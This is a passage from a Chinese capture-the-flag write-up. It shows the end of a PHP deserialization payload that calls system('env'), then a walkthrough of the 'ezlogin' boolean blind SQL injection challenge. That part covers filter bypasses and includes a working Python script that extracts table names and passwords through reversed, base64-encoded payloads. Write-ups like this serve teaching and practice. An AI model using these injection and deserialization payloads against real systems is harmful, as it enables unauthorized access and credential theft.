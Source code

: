 ```php
        $this->className = "B";
        $this->funcName = "system";
        $this->args = 'env';
    }
}

echo base64_encode(strrev(serialize(new A())));

输出：
   fTsidm5lIjozOnM7InNncmEiOjQ6czsibWV0c3lzIjo2OnM7ImVtYU5jbnVmIjo4OnM7IkIiOjE6czsiZW1hTnNzYWxjIjo5OnN7OjM6IkEiOjE6Tw==
```

这一题的flag也在环境变量中



#### ezlogin

一个sql注入题，考察布尔盲注

![image-20230326225154945](https://s2.loli.net/2023/03/26/9UbvOKz6eDT3SZg.png)

源码提示，在username中过滤了一些关键字，但是可以进行大小写绕过。

经过测试，还过滤了其他的字符，比如：`=、空格`，`=`使用 `like` 代替，`空格`使用 `/*1*/`代替

我们可以使用bp进行fuzz，查看过滤了哪些字符，这里就不试了

我们测试发现注入点是`username`，使用单引号闭合

注意我们需要将username先反转过来，然后base64编码

这里直接上脚本，flag在user表的password字段中：

```python
import base64
import requests
url = "http://4f284e5b-fcc3-4418-822c-4527a362b52d.ite.hznu.edu.cn/"
words = '0123456789abcdefghijklmnopqrstuvwxyz-{},'
flag = ''
for i in range(50):
    for j in words:
        # payload = "'/*1*/or/*1*/if((substr((SeLect/*1*/DatAbase()),{},1)/*1*/like/*1*/'{}'),1,0)#".format(i, j)
        # database:users
        # payload = "'/*1*/or/*1*/if((substr((SeLect/*1*/group_concat(table_name)/*1*/from/*1*/information_schema.tables/*1*/where/*1*/table_schema/*1*/like/*1*/Database()),{},1)/*1*/like/*1*/'{}'),1,0)#".format(i, j)
        # table:user
        # payload = "'/*1*/or/*1*/if((substr((SeLect/*1*/group_concat(column_name)/*1*/from/*1*/information_schema.columns/*1*/where/*1*/table_name/*1*/like/*1*/'user'),{},1)/*1*/like/*1*/'{}'),1,0)#".format(i, j)
        # hostuserpasswordselectprivinsertprivu
        payload = "'/*1*/or/*1*/if((substr((SeLect/*1*/password/*1*/from/*1*/user/*1*/limit/*1*/1,1),{},1)/*1*/like/*1*/'{}'),1,0)#".format(i, j)

        payload = payload[::-1]
        payload = base64.b64encode(payload.encode()).decode()
        post = {
            'username': payload,
            'passwd': '123456'
        }

        res = requests.post(url=url, data=post)
        # print(res.text)
        if 'success' in res.text:
            flag += j
```